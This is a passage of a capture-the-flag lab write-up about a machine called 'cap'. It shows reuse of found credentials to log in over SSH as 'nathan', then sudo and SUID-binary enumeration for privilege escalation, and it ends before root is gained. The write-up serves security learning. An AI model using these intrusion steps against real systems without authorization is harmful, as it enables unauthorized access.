 It looked like I was in a user's home folder. I downloaded the user flag and submitted it.

Next, I looked around the server. I tried creating a `.ssh` folder to upload an SSH key, but I was not allowed to create files. I saw that I was able to `cd` outside the home folder. I went to `/var/www/html` and downloaded the code for the application. 

But then it hit me that I should probably try the same credentials in SSH.

```bash
$ ssh nathan@target                       
nathan@target's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug 31 22:37:42 UTC 2022

  System load:           0.08
  Usage of /:            36.7% of 8.73GB
  Memory usage:          22%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.129.51.49
  IPv6 address for eth0: dead:beef::250:56ff:feb9:6cf7

  => There are 3 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
```

## Getting root

It worked! Next, I looked for simple things like `sudo` and `suid` permissions. I did not find anything I could use.

```bash
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.

nathan@cap:~$ find / -perm /u=s 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
```